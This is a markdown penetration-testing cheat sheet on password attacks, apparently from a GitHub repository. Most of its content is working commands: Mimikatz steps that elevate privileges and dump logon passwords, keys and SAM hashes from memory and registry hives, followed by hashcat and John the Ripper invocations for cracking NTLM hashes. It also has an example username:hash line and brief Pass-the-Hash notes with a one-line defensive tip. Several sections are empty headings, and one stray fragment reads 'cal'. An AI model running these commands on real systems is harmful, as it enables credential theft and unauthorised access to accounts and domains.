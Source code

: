 ## Passwords

- [Passwords](#passwords)
- [Mimikatz](#mimikatz)
    - [Mimikatz LSADump::SAM](#mimikatz-lsadumpsam)
    - [Mimikatz Pass The Hash](#mimikatz-pass-the-hash)
  - [Password cracking](#password-cracking)
    - [OnlineHashCrack.com](#onlinehashcrackcom)
    - [Cain and abel](#cain-and-abel)
    - [John the Ripper](#john-the-ripper)
    - [HashCat](#hashcat)
    - [THC Hydra](#thc-hydra)
    - [Aircrack-ng](#aircrack-ng)
    - [L0phtcrack and ophcrack](#l0phtcrack-and-ophcrack)
    - [Dictionary Attack](#dictionary-attack)
    - [Spidering :](#spidering-)
    - [Hybrid attacks eg James1](#hybrid-attacks-eg-james1)
    - [Pass The Hash PtH](#pass-the-hash-pth)

## Mimikatz

```bash
# elevate
privilege::debug
# elevate
token::elevate
# log
log 
# or log to named file
log mimikatz.log
# dump passwords
sekurlsa::logonpasswords 
sekurlsa::logonpasswords full
# get hashes
dpapi::cache //load
# get keys
sekurlsa::ekeys
```

#### Mimikatz LSADump::SAM

Get All Hashes From System

```bash
# Export Registry (Powershell)
reg save HKLM\SAM sam.hiv
reg save HKLM\SYSTEM system.hiv
# Mimikatz elevate
privilege::debug
token::elevate
# Mimikatz dump LSA hashes
cd c:\path\to\mimikatz\executable
log hash.txt
lsadump::sam sam.hiv system.hiv
```

Now edit the file so the data is in this format  username:NTLMHash

  Philip:0aca9df100f9bc3a68a50fda1812636g

Copy this file to HashCat and run the command

```bash
hashcat -m 1000 -a 0 --force --show --username hash.txt wordlist1.lst 
```

and any password matches will show up.

#### Mimikatz Pass The Hash

We can now use these credentials to log into a domain!

cal

### Password cracking

#### OnlineHashCrack.com

https://www.onlinehashcrack.com

#### Cain and abel

#### John the Ripper

John The Ripper : use to find a password from a hash

```bash
john --format=nt hash.txt
```

#### HashCat

```bash
hashcat -m 1000 -a 3 hash.txt
```

#### THC Hydra

#### Aircrack-ng

#### L0phtcrack and ophcrack

#### Dictionary Attack

       splashdata.com

       Daniel Miessler github
       
#### Spidering : 

search in plain text all files on computer, then use these to try as passwords
       
#### Hybrid attacks eg James1

#### Pass The Hash PtH

if hash is obtained, submit it directly

       Combat this -  should only log on to DC with domain admin
                            credentials, also
                            Restricted Admin mode restricts where domain admin
                                          credentials can be used
                                          
Note : live system : might be possible to obtain from memory (RAM)
